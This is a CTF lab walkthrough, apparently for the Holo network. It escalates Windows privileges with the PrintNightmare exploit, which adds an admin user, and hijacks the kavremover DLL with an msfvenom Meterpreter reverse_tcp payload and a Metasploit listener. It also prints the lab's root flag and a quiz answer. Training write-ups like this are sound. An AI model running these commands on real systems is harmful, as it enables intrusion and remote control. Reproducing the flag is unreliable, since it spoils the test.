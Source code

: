 Now that we have performed all the enumeration and situational awareness, we can move on to privilege escalation. Looking through our enumeration steps, you may notice a unique application connected to a scheduled task on the endpoint. We can attempt a DLL hijack on this application to escalate privileges, then set up persistence on the endpoint.

From the MITRE ATT&CK framework, DLL Hijacking is defined as *"Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. [[1]](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution."* The AT&CK Technique ID is [T1574](https://attack.mitre.org/techniques/T1574/).  

To utilize DLL Hijacking for privilege escalation, we will need to research the application and known vulnerabilities and DLLs and find a DLL not present on the system we have write access to.  

DLL Hijacking can also be used for persistence, as we will see later in the next task. This process is much easier than the previous one as we can use process monitoring tools like ProcMon and ProcessHacker2 to monitor for DLLs and their locations that can take over. The DLL persistence works by running the DLL with the application every time the system restarts or our connection is interrupted. This can be an application we put onto the system or an application already present that we exploit.  

Steps taken to perform DLL hijacking are outlined below.

1. Identify vulnerable application and location
2. Identify applications PID
3. Identify vulnerable DLLs that can be hijacked
4. Use MSFVenom or other payload creation tools to create a malicious DLL
5. Replace the original DLL with the malicious DLL
6. Profit

To begin escalating privileges with DLL Hijacking, we need to identify an application and scheduled task that we can target; this is covered in the previous two tasks. Once we have identified our target, we can use the power of Google to search for potential vulnerable DLLs associated with the application as we can not use tools like ProcMon to make the process easier.  

By googling, `<application> DLL Hijacking`, we can see several articles and blog posts that can lead us in the right direction and research the application for us.

If there is not any research on the application available, say a proprietary application. You can attempt to download the application from the server or find an identical copy on the internet for download that will allow you to search for vulnerable DLLs on your local machine. If you decide to take this approach, skip to the next task and complete the steps with ProcMon before returning to this task and exploiting the vulnerable DLL.


---

# Your job

## Privilege Escalation
Use a new vulnerability called `Print Nightmare` which was released in June 2021.
CVE-2021-34527, or PrintNightmare, is a vulnerability in the Windows Print Spooler that allows for a low priv user to escalate to administrator on a local box or on a remote server. More [info](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).

- Check if the system is likely to be vulnerable.
	- Open the `services.msc` and check if the “Print Spooler” service is running.
	
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134107843.webp]]
		It's vulnerable.
	- Check the updates on the system, this can be done via PowerShell:
		`wmic qfe list`
		
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134419904.webp]]
		The results show the last update on this system was done on 11/11/2020 which means it is likely to be vulnerable!

- Download the exploit from github to the attcking machine.
	`git clone https://github.com/calebstewart/CVE-2021-1675`

- Copy the `CVE-2021-1675.ps1` file to PC-FILESRV01. 

> [!tip]
> If you are using xfreerdp with /drive:share,/home/kali/tools/ you can copy directly into the macHine.

- Run the script through a PowerShell window:
	PS C:\Users\watamet\Downloads> `Import-Module .\CVE-2021-1675.ps1`

- Run the exploit.
	PS C:\Users\watamet\Downloads> `Invoke-Nightmare -NewUser "abcuser" -NewPassword "Abc1234!"`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140151649.webp]]

> [!success]
> You have an admin user called **abcuser**. It’s useful to note that the password needs to be complex enough to pass the criteria, otherwise the user won’t be added!

- Confirm the user was added.
	PS C:\Users\watamet\Downloads> `net user abcuser`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140539946.webp]]

- Connect into the machine with that user, this can be either via evil-winrm or RDP.
- Go into the Administrators desktop and get the root flag.


---

## Flag after rooting PC-FILESRV01

- Go into the Administrators desktop and get the root flag.
    
    HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
    
- Submit the user flag on Task 4, question 7.


---

## DLL Hijacking

### Identify vulnerable application and location

Enumerate the system and you'll find  a very interesting application (kavremover.exe) on `C:\Users\watamet\Applications\`, which is unusual path for program.


### Use MSFVenom or other payload creation tools to create a malicious DLL

Now you know the name of DLL that we want to hijack. So all you have to do is place the malicious DLL in that path and wait for victim to execute the application. There are several ways of creating this DLL. For this article we will use msfvenom to create the payload.

> [!warning]
> The application will be detected as a virus by the AntiVirus, so make sure you turn off AV or windows defender.

#### Creating a payload DLL

Kavremover is a 32 bit application, we will create a 32 bit payload dll with msfvenom. The syntax for creating one is:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACHING MACHINE IP> LPORT=4444 -f dll -o kavremoverENU.dll
```

**Explanation**

- **p** stands for payload. We supply the payload as windows/meterpreter/reverse_tcp.
- **LHOST** is the attacker IP. (Your Kali IP)
- **LPORT** is the attacker Port.
- **f** is for format, we choose dll
- **o** is for name of output file, we will use the same name as the one we need to hijack, kavremoverENU.dll.

#### Download the dll

Copy or download the kavremoverENU.dll file to the victim machine `C:\Users\watamet\Applications\` directory.

As you are using a RDP connection with a drive shared, simply copy the file.

### Exploiting the DLL

- On the attacking machine, run `metasploit` to receive sessions from the payload.

```
$ msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <ATTACKING MACHINE IP>
set LPORT 4444
exploit
```

- Start the kavremover application.

	The application didn’t start. That’s because of the malicious DLL, as it didn’t export necessary functions and exited the thread. But on the positive side, check the listener, you got a session.
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241121133518095.webp]]

## Answer the questions

> [!question]
> What is the name of the vulnerable application found on PC-FILESRV01?
> `kavremover`

**Next step:** [[Task 44 - WERE TAKING OVER THIS DLL! Part II]]
